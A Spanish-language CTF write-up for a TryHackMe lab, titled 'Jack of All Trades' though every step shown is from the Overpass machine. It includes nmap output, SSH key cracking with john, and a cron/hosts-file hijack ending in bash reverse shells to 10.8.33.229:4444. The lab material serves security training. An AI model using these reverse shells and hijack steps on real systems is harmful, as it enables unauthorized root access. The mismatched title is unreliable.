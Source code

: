 ```yaml
---
title: TryHackMe Jack of All Trades Writeup
published: false
---
```


La máquina Jack of All Trades es una máquina de TryHackMe en la que mediante la explotación de un servidor web conseguimos tanto la flag del usuario como la de root.

# [](#header-1)Enumeración

La enumeración se trata de una de las fases principales, en las que recolectamos la máxima información posible de la máquina víctima.

Usaremos nmap para analizar los puertos abiertos:

```bash
nmap -p- --open --min-rate 5000 -vvv -n $IP-VICTIMA -oG allPorts
```

*  Escaneo todos los puertos abiertos: -p- --open

*  Mediante --min-rate 5000 indicamos que queremos emitir paquetes no más lentos que 5000 paquetes por segundo.

*  Triple verbose (-vvv) para que vaya reportando por consola los puertos abiertos y no tener que esperar al final del escaneo.

*  Para que el escaneo no aplique resolución DNS usamos -n

*  En mi caso exporto los puertos abiertos en formato grepeable (-oG) al archivo allPorts

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-18 12:32 EDT
Initiating Ping Scan at 12:32
Scanning 10.10.185.82 [2 ports]
Completed Ping Scan at 12:32, 0.07s elapsed (1 total hosts)
Initiating Connect Scan at 12:32
Scanning 10.10.185.82 [65535 ports]
Discovered open port 22/tcp on 10.10.185.82
Discovered open port 80/tcp on 10.10.185.82
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 47.59% done; ETC: 12:32 (0:00:10 remaining)
Completed Connect Scan at 12:32, 14.51s elapsed (65535 total ports)
Nmap scan report for 10.10.185.82
Host is up, received syn-ack (0.055s latency).
Scanned at 2022-10-18 12:32:25 EDT for 15s
Not shown: 56239 closed tcp ports (conn-refused), 9294 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.63 seconds
```

Puesto que el puerto 80 está abierto, introducimos la IP en nuestro navegador y nos muestra el servicio Apache que está corriendo. Inspeccionamos el código de la página pero no encontramos nada.

Usaremos gobuster para obtener directorios ocultos:

```bash

```

Encontramos directorios ocultos en los que están el panel de autentificación y dos o tres más.

# [](#header-1)Acceso al sistema

Tras investigar un poco nos fijamos en el código del panel de login. En el apartado de JavaScript podemos ver al final del código que exite una cookie. Para intentar acceder con ella lo que deberemos hacer es dirigirnos al apartado de Storage y en Cookies darle a + para que se añada. Lo único que habrá que cambiar será el nombre. Aquí deberemos poner el de la propia cookie. En este caso SessionToken. Una vez añadida recargamos la página y nos muestra una clave RSA privada con un potencial usuario (James) pero está encriptada. 

Lo que podemos hacer es convertir la clave privada a hash para después crackearla y conseguir la contraseña del usuario James. Para ello usaremos ssh2john. Antes habrá que copiar la clave privada en nuestro equipo bajo el nombre id_rsa y darle permiso con chmod (chmod 600 id_rsa). Usando ssh2john:

> /usr/share/john/ssh2john.py id_rsa > overpass.txt

Para obtener la contraseña podremos usar John ora vez:

```bash
❯ /usr/sbin/john --wordlist=/home/jorge/Descargas/rockyou.txt overpass.txt
Created directory: /home/jorge/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
???????          (id_rsa)     
1g 0:00:00:00 DONE (2022-10-16 14:40) 33.33g/s 445866p/s 445866c/s 445866C/s lespaul..handball
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Nos muestra la contraseña. Intentaremos conectarnos por SSH con la clave privada y la contraseña descifrada:

```bash
❯ ssh -i id_rsa james@10.10.189.162
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct 16 18:46:19 UTC 2022

  System load:  0.08               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.189.162
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```

Estamos dentro, conseguimos la flag del usuario:

```bash
james@overpass-prod:~$ ls -R
.:
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{????????????????????????}
```

# [](#header-1)Escalada de privilegios

No podemos realizar sudo -l para ver los comandos que podemos ejecutar como root. Abrimos el archivo todo.txt y nos reporta lo siguiente:

```bash
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

De aquí podemos sacar que hay un proceso automatizado por lo que abro /etc/crontab y nos muestra: 

```bash
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Podemos observar que cada minuto se ejecuta un script en bash.

Si tenemos permisos de escritura en /etc/host podemos realizar la reverse shell, lo comprobamos:

```bash
james@overpass-prod:~$ ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

Tenemos permisos. Modificamos la IP de overpass.thm en /etc/hosts poniendo nuestra IP

Desde nuestro equipo, creamos la misma estructura de directorios y en el archivo buildscript.sh añadimos la bash reverse shell con nuestra IP y el puerto deseado.

Es decir, creamos /downloads/src/ y dentro el archivo .sh

En mi caso he usado la de <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentest Monkey</a>:

> bash -i >& /dev/tcp/10.8.33.229/4444 0>&1

También podríamos haber usado la de <a href="https://gtfobins.github.io/gtfobins/bash/#reverse-shell">GTFOBins</a>:

> bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'

Ejecutamos un servidor local mediante:

> python3 -m http.server 80

Nos ponemos en escucha desde el puerto que hemos indicado y esperamos menos de un minuto (que es lo que tarda en ejecutarse la tarea crontab desde la máquina víctima)

```bash
❯ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.33.229] from (UNKNOWN) [10.10.189.162] 58330
bash: cannot set terminal process group (3567): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# ls
ls
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
cat root.txt
thm{????????????????????????''}
```

Conseguimos acceso y obtenemos la flag de root! 

Muchas gracias por leer este writeup, espero que te haya gustado!
